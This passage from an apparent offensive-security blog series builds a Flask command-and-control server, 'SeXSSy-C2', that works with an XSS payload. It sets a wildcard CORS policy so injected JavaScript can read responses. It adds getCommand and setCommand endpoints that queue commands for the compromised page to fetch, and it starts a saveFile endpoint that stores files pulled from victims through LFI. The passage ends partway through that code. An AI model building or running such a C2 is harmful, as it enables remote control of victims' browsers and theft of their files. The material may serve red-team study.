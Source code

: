 ![](/img/OffensiveXSS3/corsIssue.PNG)

After execution we do get a CORS error. We will not go deeply into internals of CORS and what CORS headers are; there are plenty of articles related to this topic and is not aligned with this blog post series. We only need to focus on the fact that our server does not allow our JavaScript execution on this page to read the response. This is because the correct CORS headers were not set. This is an easy to fix issue as we only need to import the CORS package from flask and set the headers like this and add a header to allow all origins with a *"*"*
<br>
```
from flask_cors import CORS
cors = CORS(app, resources={r"/*": {"origins": "*"}})
```
<br>
Boom! Our basic command execution works now! We can now receive commands from the server itself. Our base is set for the C2 and now we can add additional capabilities to it. 

![](/img/OffensiveXSS3/workingc2.PNG)


<h2>SeXSSy-C2 - LFI v0.0.1</h2>
Now that we have a base C2, we can upgrade the LFI attack so that we only need to send a command and the filepath as arguments and get the desired file. We will not need to reset the XSS payload for every file we would like to download or for every command we would want to execute. Firstly, let's check the server side code. We definitely need some workaround to get the current command and set the next one we would like to run. So here goes the code for it:

Updated getCommand & setCommand:
```
@app.route("/getCommand", methods=['POST'])
def getCommand():
    global command
    result = command
    command = ""
    return result


@app.route("/setCommand", methods=['POST'])
def setCommand():
    global command
    command = request.get_data()
    return command
```
<br>
Here the getCommand endpoint is where the XSS will receive the next command to execute. It only accepts HTTP POST requests now. An important step is to clear the command variable after we create the response body because the XSS would be checking back in every few seconds and we do not want to download the same file again and again. As for the set command function, it is the endpoint where we need to send a POST request to set the next command and its parameters. This will be sent back to our XSS when it hits getCommand again.
<br>
Updated saveFile:
```
@app.route("/saveFile", methods=['POST'])
def saveFile():
    separator = "/"
    mainFolder = "./LFIFiles"
```